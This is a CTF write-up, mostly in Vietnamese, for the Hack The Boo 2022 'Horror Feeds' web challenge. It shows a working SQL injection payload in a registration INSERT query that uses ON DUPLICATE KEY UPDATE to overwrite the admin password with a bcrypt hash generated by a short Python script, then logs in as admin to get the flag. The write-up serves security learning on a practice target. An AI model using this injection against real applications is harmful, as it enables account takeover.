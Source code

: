 # **Hack The Boo CTF 2022**
## **Horror Feeds** 
___
### **Description:**

An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?
```
161.35.162.224:30734
```
___

Các thao tác register, login cơ bản

![1.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/1.png)

Sau khi login thành công thì ta được redirect đến /dashboard

![2.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/2.png)

Flag nằm ở /dashboard khi ta xác thực thành công với username=admin

![3.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/3.png)

![4.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/4.png)

Sau khi test và kiểm chứng thì mình phát hiện SQLi nằm ở câu query insert

![5.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/5.png)

Mình sẽ dùng [DUPLICATE KEY UPDATE](https://mariadb.com/kb/en/insert-on-duplicate-key-update/) để sửa đổi passwd của admin:
```
username=admin","something") ON DUPLICATE KEY UPDATE password='a'-- -
password=somethinghere
```

Vì password lưu trong database ở dạng hash nên mình chạy script xem mật khẩu "a" sẽ được lưu như thế nào:

```python3
import bcrypt

def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

print(generate_password_hash('a'))
```

Output:
```
$2b$12$eqBRydMzRivDC2Z7wrujiuCUILKl82FtdAf5QdLxo/dJCXsiKdxuK
```

Như vậy payload sẽ là:
```
username=admin","something") ON DUPLICATE KEY UPDATE password='$2b$12$eqBRydMzRivDC2Z7wrujiuCUILKl82FtdAf5QdLxo/dJCXsiKdxuK'-- -
password=somethinghere
```

Sau đó login với username admin và lấy flag:

```
username=admin
password=a
```
![6.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Horror%20Feeds/img/6.png)
